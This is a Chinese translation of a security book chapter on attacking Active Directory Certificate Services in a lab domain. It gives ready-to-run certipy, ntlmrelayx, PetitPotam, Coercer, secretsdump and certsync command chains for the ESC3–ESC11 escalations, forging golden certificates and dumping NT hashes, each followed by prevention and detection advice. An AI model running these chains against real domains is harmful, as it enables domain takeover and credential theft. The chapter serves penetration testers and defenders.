图 8.21 – 使用 LDAP 查询查找证书请求代理模板

第二个条件允许用户使用第一个条件中的证书，代表其他用户请求证书以进行身份验证。对于此条件，必须满足以下配置参数：

+   企业 CA 授予低权限用户注册权限

+   管理员批准已禁用

+   证书模板定义了启用身份验证的 EKU

+   CA 上未实现注册代理限制

+   模板架构版本为 1 或更大，并指定`Application Policy`发布要求作为**证书请求` `代理** EKU

听起来有点复杂，但以下 LDAP 查询可以明确要求：

```
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=1)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=essos,DC=local'
```

结果是，我们找到了 ESC3 易受攻击模板：


图 8.22 – 使用 LDAP 查询查找 ESC3 易受攻击模板

攻击将分为两步 – 为代理请求证书，然后使用该证书代表域管理员请求证书。以下命令将实现所需结果：

```
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC3-CRA
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC3 -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

命令执行的结果如以下截图所示：


图 8.23 – ESC3 成功利用

预防措施将与之前的两种攻击类似，但也很重要的一点是要限制注册代理。我们可以定义谁可以作为注册代理，以及代理被允许代表哪些用户和证书模板进行注册。

### ESC9 – 无安全扩展

这个和下一个攻击向量是*Oliver Lyak*在 2022 年 5 月的 Microsoft 安全更新后发现的。原始研究可以在这里找到[16]。为了修复 Certifried（CVE-2022–26923），Microsoft 引入了新的`szOID_NTDS_CA_SECURITY_EXT`安全扩展，将请求者的`objectSid`属性嵌入证书中。此外，还创建了两个新的注册表项值 – `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel\CertificateMappingMethods` 和 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement`。这两个值对应 Kerberos 和 Schannel 证书映射。

`StrongCertificateBindingEnforcement`可能有三个值，对应以下内容：

+   `0` – 无强证书映射检查。KDC 验证证书是否由受信任的 CA 颁发并可用于认证。接下来，通过 UPN 或 DNS SAN 值将其映射到账户。

+   `1`（默认）– 检查账户对象的`altSecurityIdentities`属性中是否包含标识符。如果没有，则域控制器将验证证书中的新 SID 扩展（**szOID_NTDS_CA_SECURITY_EXT**）。如果没有扩展，映射将像值为`0`一样执行。

+   `2` – 所有检查与`1`的值相同，唯一不同的是缺少扩展，这将导致认证被拒绝。

Schannel 认证不会直接使用新的安全扩展，而是通过 Kerberos 使用 S4U2self 来映射证书，因为它支持新的扩展。然而，补丁已经破坏了许多环境中的证书认证，微软建议将注册表键的值设置回旧值。这意味着具有 UPN 或 DNS 名称且`CertificateMappingMethods`值为`0x4`的证书，在映射过程中不会受到新安全扩展的影响。我们来总结一下 ESC9 的条件：

+   `StrongCertificateBindingEnforcement`未设置为`2`，或者`CertificateMappingMethods`包含`0x4`值。

+   模板包含`msPKI-Enrollment-Flag`值，并设置了`CT_FLAG_NO_SECURITY_EXTENSION`标志。

+   模板指定了客户端认证 EKU。

+   一个受损的用户拥有`GenericWrite`权限，可以对能注册易受攻击模板的用户进行操作。我们的最终目标是通过已注册的用户帮助受损的用户。

为了模拟此攻击，我们需要在 CA 和域控制器[17]上安装 2022 年 5 月的补丁。建议在安装前先进行快照。然后，我们将创建并发布 ESC9 模板，设置第二个条件的标志，授予`viserys.targaryen`注册权限，最后执行攻击。从 Shadow Credentials 攻击中，我们已经知道`khal.drogo`对`viserys.targaryen`拥有`GenericAll`权限。让我们通过以下步骤模拟这个场景：

1.  为了确保我们正确准备实验环境，执行以下命令：

    ```
    certutil -dstemplate ESC9 msPKI-Enrollment-Flag +0x00080000
    certutil -dstemplate ESC9 msPKI-Enrollment-Flag
    reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc /v StrongCertificateBindingEnforcement
    ```

    输出应该如下所示：


图 8.24 – 执行 ESC9 攻击的条件已满足

1.  获取`viserys.targaryen`的 NT 哈希：

    ```
    certipy shadow auto -u 'khal.drogo@essos.local' -p 'horse' -account viserys.targaryen
    ```

1.  将`viserys.targaryen`的 UPN 更新为管理员：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn Administrator
    ```

1.  使用 ESC9 易受攻击模板以`viserys.targaryen`身份请求证书：

    ```
    certipy req -username 'viserys.targaryen@essos.local' -hashes 'd96a55df6bef5e0b4d6d956088036097' -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC9
    ```

1.  将`viserys.targaryen`的 UPN 更改回原始值：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn viserys.targaryen@essos.local
    ```

1.  通过 nPAC-the-hash 获取管理员的 NT 哈希：

    ```
    certipy auth -pfx 'administrator.pfx' -domain 'essos.local'
    ```

攻击结果如下截图所示：


图 8.25 – 成功利用 ESC9 漏洞

最佳的预防建议是将`StrongCertificateBindingEnforcement`设置为`2`；但是，这可能会破坏域中的证书认证。此外，使用以下命令从模板中删除`msPKI-Enrollment-Flag`：

```
certutil -dstemplate ESC9 msPKI-Enrollment-Flag -0x00080000
```

### ESC10 - 弱证书映射

这种攻击技术有两种情况 - 当`StrongCertificateBindingEnforcement`设置为`0`或`CertificateMappingMethods`包含值`0x4`时。简单来说，这意味着证书的 SAN 优先于新的安全扩展。仍然必须满足关于具有客户端认证 EKU 和`GenericWrite`权限的模板的要求。第一种情况与 ESC9 攻击相同，但可以使用任何证书模板。第二种情况针对机器帐户和默认域管理员，因为它们没有 UPN 属性。我们的目标是妥协域管理员。再次，我们将使用`khal.drogo`具有`viserys.targaryen`上的`GenericAll`权限：

1.  为确保我们正确准备实验室，运行以下命令：

    ```
    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel /v CertificateMappingMethods
    ```

    输出应该如下截图所示：


图 8.26 - CertificateMappingMethod 值为 0x4，允许 ESC10 攻击

1.  检索`viserys.targaryen`的 NT 哈希：

    ```
    certipy shadow auto -u 'khal.drogo@essos.local' -p 'horse' -account viserys.targaryen
    ```

1.  将`viserys.targaryen`的 UPN 更新为`Administrator@essos.local`：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn 'Administrator@essos.local'
    ```

1.  注册任何允许客户端认证的证书模板：

    ```
    certipy req -username 'viserys.targaryen@essos.local' -hash 'd96a55df6bef5e0b4d6d956088036097' -target 192.168.56.23 -ca 'ESSOS-CA' -template User
    ```

1.  将`viserys.targaryen`的 UPN 更改回原始状态：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn viserys.targaryen@essos.local
    ```

1.  通过 Schannel 获取 LDAP shell：

    ```
    certipy auth -pfx 'administrator.pfx' -domain 'essos.local' -dc-ip 192.168.56.12 -ldap-shell
    ```

攻击的结果如下截图所示：



图 8.27 - 成功利用 ESC10

要防止此攻击，请从注册表中的`CertificateMappingMethods`设置中删除`0x4`部分。

## 不当的访问控制

由于 Active Directory 中的一切都是对象，这意味着每个对象都有自己的 ACL。在之前的章节中，我们讨论了 ACL 滥用；现在，我们将从 AD CS 的角度重新利用我们的知识。

### ESC4 - 易受攻击的证书模板访问控制

证书模板是 Active Directory 中的对象。它们有一个安全描述符，用来定义主体及其对模板的权限。访问控制过于宽松可能会允许攻击者编辑模板设置，使模板易受之前所述技术的攻击。从安全角度来看，关键权限包括所有权、完全控制和任何类型的 **写入** 权限。现在有多种工具可以帮助识别和滥用易受攻击的模板：`PowerView`、Bloodhound、StandIn、Certipy 和 `modifyCertTemplate`[18]。关于如何仅使用 PowerView 来利用 ESC4 的详细步骤指南可以在这里找到[19]。在开始时，我们将使用 `certipy-ad` 工具。我们将检测易受攻击的模板和可以滥用它们的用户：

```
certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -vulnerable -stdout
```

以下命令的输出如下：


图 8.28 – khal.drogo 在 ESC4 上具有过多权限

接下来的步骤是通过将 `ENROLLEE_SUPPLIES_SUBJECT` 属性添加到模板中，使模板容易受到 ESC1 攻击。为了更好地理解这个攻击，我们将借助 `modifyCertTemplate` 工具，逐步操作。

首先，我们将检查证书的 ACL 和属性：

```
python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -raw
python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -get-acl
```

结果，我们将看到一份属性列表，并确认 `khal.drogo` 对该模板拥有 **写入** 权限。接下来，我们将配置模板，使其满足 ESC1 攻击的要求：

1.  我们将使用以下命令禁用“经理审批”要求：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -value 0 -property mspki-enrollment-flag
    ```

1.  禁用“授权签名”要求：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -value 0 -property mspki-ra-signature
    ```

1.  在请求中启用 SAN 规范：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag
    ```

1.  添加一个允许域认证的 EKU：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -property pkiExtendedKeyUsage -add "Client Authentication"
    ```

1.  应用“应用程序策略”以允许域认证：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property mspki-certificate-application-policy
    ```

上述命令的结果如下截图所示：


图 8.29 – 调整后的易受攻击模板适应 ESC1 攻击路径

现在，我们可以像在 ESC1 攻击中一样，滥用配置错误的模板：

```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC4 -ca 'ESSOS-CA' -upn administrator@essos.local
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

结果，我们成功请求了证书，并以域管理员身份获取了 TGT。



图 8.30 – 成功利用 ESC4 进行攻击

为了防止这种攻击，建议定期审查证书的 ACL，以确保仅将高权限分配给正确的用户组。通过事件 ID `5136`可以检测此类行为，但需要调整审计策略。此事件 ID 监控我们之前更改的关键证书模板属性的修改。另一个有助于检测该事件 ID 的是`4899`。然而，事件日志中并没有记录哪个账户进行了更改，并且只有在使用修改后的模板进行注册时，该事件才会被记录[20]。模板 AD 对象上的 SACL 也可以强制执行，从而在事件 ID `4662`中提供更细粒度的视图。

### ESC5 – 易受攻击的 PKI 对象访问控制

如果攻击者对以下对象具有某些权限，则可能会危及整个 PKI 系统：

+   CA 服务器的计算机账户

+   CA 服务器的 RPC/DCOM 服务器

+   在`CN=Public** **Key Services,CN=Services,** **CN=Configuration,DC=<COMPANY>,or** **DC=<COM>`容器中的任何后代对象/容器

例如，让我们讨论以下场景。一名攻击者通过 RBCD 成功攻击了 CA 服务器的计算机账户。获得访问权限后，CA 服务器上具有本地管理员权限的域账户的 NT 哈希值被转储。此时，攻击者可以伪造一个 Golden 证书。为了复制这个攻击，我将`viserys.targaryen`添加到本地管理员组中。

作为本地管理员，可以使用以下命令备份 CA 证书和私钥：

```
certipy-ad ca -backup -u viserys.targaryen -p GoldCrown -ca ESSOS-CA -target 192.168.56.23
```

接下来，我们将为域管理员伪造一个证书并用于身份验证。请记住，`-template`选项用于避免 Kerberos `KDC_ERR_CLIENT_NOT_TRUSTED`错误，这意味着伪造不正确：

```
Certipy-ad forge -ca-pfx ESSOS-CA.pfx -upn Administrator@essos.local -subject 'CN=Administrator,CN=Users,DC=essos,DC=local' -template khal.drogo.pfx
certipy-ad auth -pfx administrator_forged.pfx -dc-ip 192.168.56.12
```

攻击的结果如下截图所示：


图 8.31 – 成功利用 ESC5 漏洞

另一种技术，名为`CertSync`，最近被发布。它允许通过结合 Golden 证书和 UnPAC-the-hash 远程转储`ntds.dit`，而无需使用 DRSUAPI[21]。显然，需要对 CA 的特权访问。Golden 证书是使用 CA 证书私钥伪造的证书。我们将在后续讨论域持久性技术时详细介绍伪造的过程。`CertSync`攻击的步骤如下：

1.  从 LDAP 中转储用户列表、CA 信息和 CRL。

1.  转储 CA 证书和私钥。

1.  为每个用户伪造一个证书。

1.  为每个用户获取 NT 哈希值，使用 UnPAC-the-hash。

发起攻击的命令如下：

```
certsync -u viserys.targaryen -p GoldCrown -d essos.local -dc-ip 192.168.56.12 -ns 192.168.56.12
```

结果，所有用户的 NT 哈希值被转储：


图 8.32 – 成功的 certsync 攻击

该工具还有一些选项可以提高 OpSec（例如，在身份验证请求之间应用超时，模仿现有模板等）。

另一项令人兴奋的研究成果是由*SpecterOps*发布的，关于如何通过使用 ESC5 从域管理员晋升为企业管理员。你可以在这里阅读更多[22]。

为了防止 ESC5，对 CA 服务器进行加固，并确保只有必要的帐户可以访问。可以通过审计 SACLs 监控证书模板修改来进行检测。

### ESC7 – 可能受攻击的证书颁发机构访问控制

当 CA 本身的 ACL 不够严格时，这种攻击是可能的。我们感兴趣的两个主要权限是`ManageCA`（CA 管理员）和**颁发和管理证书**（证书管理员）。`ManageCA`允许添加`EDITF_ATTRIBUTESUBJECTALTNAME2`标志，有效地使 CA 容易受到 ESC6 攻击。然而，需要重新启动服务才能引入此更改。此外，安装的 2022 年 5 月安全更新会杀死 ESC6。如何使用 PowerShell PSPKI 模块将过多权限转换为 ESC6 的良好示例可以在这里找到[23]。

然而，`ManageCA`权限允许你授予自己**颁发和管理证书**的访问权限。这个角色允许我们批准待处理的请求，从而消除了经理批准发放的要求。现在，我们可以结合新的权限来执行攻击。默认的`SubCA`模板容易受到 ESC1 的攻击，并且具有**任何用途**的 EKU。攻击者可以使用`SubCA`模板请求证书，但请求将被拒绝，因为只有管理员可以在其中注册。然而，可以使用具有`ManageCA`和**颁发和管理证书**权限的帐户手动批准请求。重要的是要注意，这两个权限都是必需的。然后可以手动检索证书并用于域身份验证。

为了展示前述情景，我将授予`khal.drogo`用户`ManageCA`权限。这可以在**证书颁发机构（certsrv）MMC**中的**CA 属性**的**安全**选项卡中授予。我们将从 CA 的 ACL 枚举开始。我们可以使用一个名为 PSPKI 的 PowerShell 模块或带有`cas`参数的`Certify.exe`。它将显示`khal.drogo`拥有`ManageCA`权限。


图 8.33 – ESSOS-CA 的 ACL 枚举

我们将授予`khal.drogo`用户**颁发和管理证书**权限，也称为**官员**。然后，如果已禁用，我们将启用`SubCA`模板：

```
certipy-ad ca -u khal.drogo@essos.local -p horse -ca 'ESSOS-CA' -target braavos.essos.local -add-officer khal.drogo
certipy-ad ca -u khal.drogo@essos.local -p horse -ca 'ESSOS-CA' -target braavos.essos.local -enable-template SubCA
```

执行前述命令的结果如下：


图 8.34 – 启用 SubCA 模板并授予 khal.drogo 官员权限

我们将通过请求使用`SubCA`模板的证书来发起攻击，手动批准它，最后检索已发放的证书。以下命令将执行攻击：

```
certipy-ad req -u khal.drogo@essos.local -p horse -ca ESSOS-CA -target braavos.essos.local -template SubCA -upn administrator@essos.local
certipy-ad ca -u khal.drogo@essos.local -p horse -ca ESSOS-CA -target braavos.essos.local -issue-request 19
certipy-ad req -u khal.drogo@essos.local -p horse -ca ESSOS-CA -target braavos.essos.local -retrieve 19
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

前述命令的结果如下截图所示：


图 8.35 – 成功的 ESC7 攻击

*Tarlogic*发布了一些引人入胜的研究。研究表明，如果对手拥有`ManageCA`权限，则可以通过上传 Web shell 实现远程代码执行。研究可在此处找到[24]。

为防止 ESC7，审查对 CA 具有敏感安全权限的主体。通过 Sysmon 注册表规则，可以检测到攻击者将设置`EDITF_ATTRIBUTESUBJECTALTNAME2`标志的情况。更改 CA 安全权限会生成事件 ID `4882`，如下所示：


图 8.36 – khal.drogo 添加了证书管理权限

下一节将演示，过去默认的 CA 配置导致完全接管 AD CS。

## CA 配置错误

现在我们将讨论一个在 2022 年 5 月由 Microsoft 补丁修复的攻击，但您仍可能在旧环境中遇到它。

### ESC6 – EDITF_ATTRIBUTESUBJECTALTNAME2

如果 CA 上设置了`EDITF_ATTRIBUTESUBJECTALTNAME2`标志，任何请求都可以在主题备用名称中定义值。实际上，任何域用户都可以在为域身份验证配置的任何模板中注册，并获取证书，包括域管理员。与 ESC1 的区别在于，帐户信息存储在证书属性中，而不是在证书扩展中。此标志存储在注册表中，可以使用`certutil.exe/certify`从非提升的上下文中验证；但是，如果检查是通过网络进行的，则远程注册表服务应该正在运行：

```
certutil -config "braavos\ESSOS-CA" -getreg "policy\EditFlags"
```

Certify 将检测到此标志并引发问题：


图 8.37 – 标志已设置

利用相对简单。我们请求一个用户证书，其中域管理员作为替代名称：

```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template User -ca 'ESSOS-CA' -upn administrator@essos.local
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

结果如下截图所示：


图 8.38 – 成功的 ESC6 攻击

要防止此攻击，请使用以下命令禁用标志（需要域管理员权限）并重新启动服务：

```
certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2
```

2022 年 5 月的安全更新杀死了 ESC6；现在，它只能与 ESC10 结合使用。该补丁强制新证书具有一个安全扩展，其中嵌入了请求者的`objectSid`属性，而不是来自 SAN 的值。

在下一节中，我们将重新审视中继攻击*第五章*，但仅适用于 AD CS 的新方法。

## 中继攻击

我们之前在*第五章*中讨论过中继攻击。在这里，我们将重新审视它们，但现在重点放在 AD CS 上。

### ESC8 – NTLM 中继到 AD CS HTTP 端点

如果安装了额外的 AD CS 服务器角色，可能会引入几种基于 HTTP 的注册方法。这些基于 HTTP 的注册方法容易受到 NTLM 或 Kerberos 中继攻击的影响。例如，对手可以使用`PetitPotam`来强制从域控制器到所选主机的 NTLM 身份验证。然后，NTLM 凭据被中继到 AD CS 网页注册页面，并颁发域控制器证书。使用此证书，对手将请求 TGT 并通过传递证书访问域控制器。这种攻击的执行方式取决于可用工具和协议的不同版本[25]。我们将坚持使用 Linux 方式，按照实验作者*Mayfly*[26]的步骤：

1.  使用`Certify.exe`和`cas`参数查找注册端点。

1.  在我们的 Kali 机器上创建一个监听器，将 SMB 身份验证中继到 AD CS HTTP 端点：

    ```
    impacket-ntlmrelayx -t http://192.168.56.23/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
    ```

    我们选择`DomainController`模板，因为我们的目标是域控制器。如果我们的目标是工作站，我们可以使用`Machine`模板，对于域用户，我们可以使用`User`模板。

1.  使用`PetitPotam`强制进行身份验证；但是，您也可以选择任何其他方法：

    ```
    python3 PetitPotam.py 192.168.56.100 meereen.essos.local
    ```

1.  在强制身份验证后获取证书：


图 8.39 – 获取域控制器的计算机帐户证书

1.  通过传递证书请求 TGT：

    ```
    python3 gettgtpkinit.py -pfx-base64 $(cat /home/kali/cert.b64) -dc-ip 192.168.56.12 'essos.local/meereen$' 'meereen.ccache'
    ```

1.  使用 TGT，获取`daenerys.targaryen`的 NT 哈希：

    ```
    export KRB5CCNAME=meereen.ccache
    impacket-secretsdump -k -no-pass -just-dc-user daenerys.targaryen ESSOS.LOCAL/'meereen$'@meereen.essos.local
    ```

    攻击的结果如下截图所示：


图 8.40 – 成功的 ESC8 攻击

Certipy-ad 也嵌入了这种攻击：

```
certipy-ad relay -ca 192.168.56.23 -template DomainController
certipy-ad auth -pfx meereen.pfx -dc-ip 192.168.56.12
```

使用任何强制方法后，我们获得了证书和 NT 哈希：


图 8.41 – 成功的 ESC8 攻击

预防建议是为证书颁发 Web 服务启用**扩展保护认证**（**EPA**），禁用未使用的 AD CS HTTP 端点，并在主机和 IIS 级别禁用 NTLM 身份验证。可以通过 CA 服务器上的事件 ID `4624`检测使用 NTLM 的机器帐户以及事件 ID `4768`，其中域控制器的计算机帐户证书用于请求 TGT。

### ESC11 – NTLM 中继到 RPC 端点

这种攻击类似于 ESC8，但中继是针对 RPC 端点而不是 HTTP 端点。原始研究可以在这里找到[27]。证书请求通过`ICertPassage Remote`（**ICPR**）协议发送到 RPC 端点。要成功执行攻击，必须满足两个条件：

+   `IF_ENFORCEENCRYPTICERTREQUEST`标志未设置（默认设置）

+   NTLM 签名不是必须的

向后兼容较旧的操作系统版本（< Windows Server 2012）可能是该标志未设置的原因。为了演示，我们将通过在`braavos.essos.local`机器的提升上下文中运行以下命令来取消设置该标志：

```
certutil -setreg CA\InterfaceFlags -IF_ENFORCEENCRYPTICERTREQUEST
net stop certsvc & net start certsvc
```

以下步骤将成功模拟该攻击：

1.  使用`certipy`检查 CA 是否对 ESC11 存在漏洞：

    ```
    certipy find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -stdout
    ```

    结果如下所示：


图 8.42 – CA 对 ESC11 攻击存在漏洞

1.  启动监听器，使用`DomainController`模板定位 CA：

    ```
    certipy relay -target 'rpc://braavos.essos.local' -ca 'ESSOS-CA' -template DomainController
    ```

1.  使用`Coercer`工具强制认证：

    ```
    python3 Coercer.py coerce -u 'khal.drogo' -p 'horse' --target-ip 192.168.56.12 --listener-ip 192.168.56.100
    ```

1.  使用域控制器的计算机账户证书进行认证：

    ```
    certipy auth -pfx meereen.pfx -dc-ip 192.168.56.12
    ```

    结果在以下截图中显示：


图 8.43 – 成功的 ESC11 攻击

为了缓解此攻击，通过设置`IF_ENFORCEENCRYPTICERTREQUEST`标志来强制包签名和加密。检测建议与 ESC8 相同。

在下一节中，我们将讨论通过滥用内建的 AD CS 功能来实现域内持久化的可能方式。

# 域持久化

在本节中，我们将探讨利用被攻破的 CA 在域中实现持久化的技术。我们将了解对手通常会利用哪些典型的向量来保持对环境的高权限访问，并探讨检测此类活动的方法。

## DPERSIST1 – 使用被盗的 CA 证书伪造证书

如果一个对手已成功攻破了一个 CA 并获得了相应的 CA 证书和私钥，那么在该域环境中伪造任何证书都是可能的。为了区分 CA 证书与其他证书，请注意以下特征：

+   发行者和主题被设置为 CA 的唯一名称

+   它具有一个“CA 版本”扩展

+   无 EKU

这些特征在以下截图中显示：



图 8.44 – CA 证书信息

需要特别说明的是，伪造的证书无法被吊销，因为 CA 并不知道它们的存在。获取 CA 证书的场景之一已在 ESC5 示例中解释。如果你需要在 Windows 机器上伪造证书，可以使用一个名为`ForgeCert`[28]的工具来协助你。

理想情况下，从安全角度来看，CA 应该被视为关键资产。根 CA 可以下线，并将证书颁发委托给下级 CA。如果根 CA 被攻破，它仍然是安全的，并可以吊销下级 CA 证书。CA 证书的私钥应当与所有物理安全措施一起单独存储在硬件设备中。

## DPERSIST2 – 信任恶意 CA 证书

在身份验证过程中，域控制器会检查`NTAuthCertificates`对象中的 CA 条目，该条目在`Issuer`字段中指定。此技术的思路是生成一个自签名的恶意 CA 证书，并将其添加到`NTAuthCertificates` Active Directory 对象中。之后，任何由恶意 CA 证书签名的伪造证书都会被视为有效。攻击者需要具有高权限的访问权限，才能将恶意证书推送到`NTAuthCertificates`对象中。可以通过以下命令来实现：

```
certutil.exe -dspublish -f C:\Users\Public\RogueCA.crt NTAuthCA
```

如果启用了`CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local`对象的`Write`和`Modify`操作的 SACL 审计，就可以检测到这种活动。这将生成事件 ID `5136`。

## DPERSIST3 – 恶意配置错误

通过对 CA 的高权限访问，攻击者可以通过修改 AD CS 组件的安全描述符引入恶意配置错误，从而实现持久性。在这种情况下，唯一的限制就是攻击者的想象力。所有来自域权限提升部分的攻击都可以与在 AD CS 关键元素上设置的额外过度权限一起实施。检测此技术非常困难。每当证书服务的安全权限发生更改时，都会记录事件 ID `4882`，如 ESC7 所示。此外，关键 AD 对象的 SACL 审计将非常有帮助。

# 总结

在本章中，我们学习了妥协 AD CS 的技术。本章介绍的技术被分为四类：证书窃取、账户持久性、域权限提升和域持久性。

在证书窃取类别中，我们介绍了从被攻陷终端窃取证书的不同方法。接下来，我们向您介绍了账户持久性技术，如用户和机器证书的请求与续订。此外，我们还学习了域权限提升和持久性技术，分别用于在域级别实现最高权限。

在下一章中，我们将深入探讨 Microsoft 的数据库解决方案——Microsoft SQL Server。我们将涵盖进攻性技术、防御措施和检测建议。

# 参考资料

1.  SpecterOps – Certified Pre-Owned: [`specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf`](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)

1.  关于 AD CS 的 Microsoft 官方文档：[`learn.microsoft.com/en-us/training/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs`](https://learn.microsoft.com/en-us/training/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs)

1.  PassTheCert 工具：[`github.com/AlmondOffSec/PassTheCert`](https://github.com/AlmondOffSec/PassTheCert)

1.  无 PKINIT 的证书认证：[`offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.xhtml`](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.xhtml)

1.  寻找 AD CS 滥用行为：[`speakerdeck.com/heirhabarov/hunting-for-active-directory-certificate-services-abuse`](https://speakerdeck.com/heirhabarov/hunting-for-active-directory-certificate-services-abuse)

1.  CertStealer 工具：[`github.com/TheWover/CertStealer`](https://github.com/TheWover/CertStealer)

1.  SharpDPAPI 工具：[`github.com/GhostPack/SharpDPAPI`](https://github.com/GhostPack/SharpDPAPI)

1.  检测 UnPAC-the-hash 和 Shadow Credentials 攻击：[`medium.com/falconforce/falconfriday-detecting-unpacing-and-shadowed-credentials-0xff1e-2246934247ce`](https://medium.com/falconforce/falconfriday-detecting-unpacing-and-shadowed-credentials-0xff1e-2246934247ce)

1.  Certify 工具：[`github.com/GhostPack/Certify`](https://github.com/GhostPack/Certify)

1.  Shadow Credentials 攻击：[`shenaniganslabs.io/2021/06/21/Shadow-Credentials.xhtml`](https://shenaniganslabs.io/2021/06/21/Shadow-Credentials.xhtml)

1.  Whisker 工具：[`github.com/eladshamir/Whisker`](https://github.com/eladshamir/Whisker)

1.  AD CS 备忘单：[`hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services`](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services)

1.  Certifried 原始研究：[`research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4`](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)

1.  Certipy 工具：[`github.com/ly4k/Certipy`](https://github.com/ly4k/Certipy)

1.  Semperis 针对 CVE-2022-26923 的分析：[`www.semperis.com/blog/ad-vulnerability-cve-2022-26923/`](https://www.semperis.com/blog/ad-vulnerability-cve-2022-26923/)

1.  ESC9 和 ESC10 作者的博客文章：[`research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7`](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

1.  微软针对 Certifried 的补丁：[`catalog.update.microsoft.com/Search.aspx?q=KB5025228`](https://catalog.update.microsoft.com/Search.aspx?q=KB5025228)

1.  modifyCertTemplate 工具：[`github.com/fortalice/modifyCertTemplate`](https://github.com/fortalice/modifyCertTemplate)

1.  使用 PowerView 利用 ESC4：[`redteam.wiki/postexploitation/active-directory/adcs/esc4`](https://redteam.wiki/postexploitation/active-directory/adcs/esc4)

1.  检测 ESC4：[`www.fortalicesolutions.com/posts/adcs-playing-with-esc4`](https://www.fortalicesolutions.com/posts/adcs-playing-with-esc4)

1.  Certsync 攻击: [`www.redpacketsecurity.com/certsync-dump-ntds-with-golden-certificates-and-unpac-the-hash/`](https://www.redpacketsecurity.com/certsync-dump-ntds-with-golden-certificates-and-unpac-the-hash/)

1.  SpecterOps – 从 DA 到 EA 使用 ESC5: [`posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c`](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)

1.  使用 PSPKI 将 ESC7 转换为 ESC6: [`luemmelsec.github.io/Skidaddle-Skideldi-I-just-pwnd-your-PKI/#esc7`](https://luemmelsec.github.io/Skidaddle-Skideldi-I-just-pwnd-your-PKI/#esc7)

1.  从 ManageCA 到 RCE: https://www.tarlogic.com/blog/ad-cs-manageca-rce/

1.  ESC8 利用版本: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#esc8---ad-cs-relay-attack

1.  AD CS GOADv2 实验室演练: https://mayfly277.github.io/posts/GOADv2-pwning-part6/#esc8---coerce-to-domain-admin

1.  ESC11 原创研究: https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/

1.  ForgeCert 工具: https://github.com/GhostPack/ForgeCert
